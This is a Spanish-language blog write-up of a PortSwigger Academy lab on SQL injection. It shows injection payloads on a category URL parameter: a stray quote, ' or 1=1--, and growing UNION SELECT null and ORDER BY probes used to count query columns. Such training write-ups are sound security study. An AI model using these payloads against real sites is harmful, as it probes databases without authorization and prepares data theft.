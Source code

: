 ```yaml
---
title: "03 SQLi UNION attack determining the number of columns returned by the query"
collection: publications
category: portswigger
permalink: /publications/03_SQL injection UNION attack, determining the number of columns returned by the query
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría del filtro de productos. Esta vulnerabilidad puede explotarse mediante un ataque UNION para recuperar datos de otras tablas. Para resolver el laboratorio, realizamos un ataque de inyección SQL que determina el número de columnas que devuelve la consulta. Este es el primer paso de un ataque UNION de inyección SQL. Utilizaremos esta técnica en laboratorios posteriores para construir el ataque completo.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi UNION attack determining the number of columns returned by the query'
---
```


![logo]({{site.url}}/images/SQLi/sqli-3/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Dificultad: PRACTITIONER  

## Descripción del laboratorio

![lab_description]({{site.url}}/images/SQLi/sqli-3/lab_description.png)

## Query

La consulta utilizada en el laboratorio tendrá un aspecto similar a

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Pasos

### Confirmar argumento inyectable

El filtrado de categorías funciona basándose en el argumento URL `category`. Primero tengo que confirmar que este argumento es inyectable creando un error.

El argumento normal es, por ejemplo, `/filter?category=Accessories`. Empieza inyectando una comilla simple al final: `/filter?category=Accessories'`.

--> Esto resulta en un Error Interno del Servidor por parte de la aplicación ya que la consulta SQL es inválida ahora y se verá así, teniendo una comilla simple ilegal al final:

```sql
SELECT * FROM someTable WHERE category = 'Accessories''
```

A continuación, pruebo el caso bueno inyectando algo que resulta en una consulta válida: `/filter?category=Accessories%27%20or%201=1--`. El resultado es una consulta como ésta, que devuelve todas las filas y elimina la comilla simple errónea y todo lo que pueda venir después:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' or 1=1--'
```

Devuelve el listado completo, básicamente el mismo contenido que si no se hubiera utilizado ningún filtro. Esto es una indicación de que lo que vendría después y se comenta no interfiere con el resultado.

### Contar columnas por UNION SELECT

En una UNION, los conjuntos de resultados deben contener el mismo número de columnas. Inyectar `' UNION (select null)--` producirá un error en el servidor.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null)--'
```

Utilizo llamadas repetidas, aumentando cada vez el número de ``nulls``. El recuento de columnas correcto se puede encontrar inyectando `' UNION (select null, null, null)--`. Por lo tanto, esta consulta es válida:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null, null, null)--'
```

Ahora sé que hay tres columnas y el laboratorio se actualiza a

![success]({{site.url}}/images/SQLi/sqli-3/success.png)

### Contar columnas por ORDER BY

Una forma alternativa de contar las columnas es con `ORDER BY`. Inyectando `' ORDER BY 1--` ordenará los resultados por la primera columna del resultado. Incrementar el valor conduce a un error interno del servidor cuando se utiliza `' ORDER BY 4--` ya que se ordena a la base de datos por una columna que no existe. Por lo tanto, el número correcto de columnas es 3.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' ORDER BY 4--
```
